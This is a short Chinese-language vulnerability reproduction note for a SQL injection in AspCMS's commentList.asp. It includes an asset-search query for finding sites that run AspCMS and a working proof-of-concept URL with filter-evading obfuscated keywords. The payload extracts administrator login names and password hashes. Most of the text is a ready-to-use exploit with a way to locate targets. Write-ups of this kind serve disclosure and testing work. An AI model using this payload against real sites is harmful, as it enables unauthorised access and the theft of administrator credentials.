 # AspCMS commentList.asp SQL注入漏洞

# AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## 网络测绘

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS

![img](/images/202202170904613.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](/images/202202170904678.png)

成功获取管理员账号以及密码的MD5

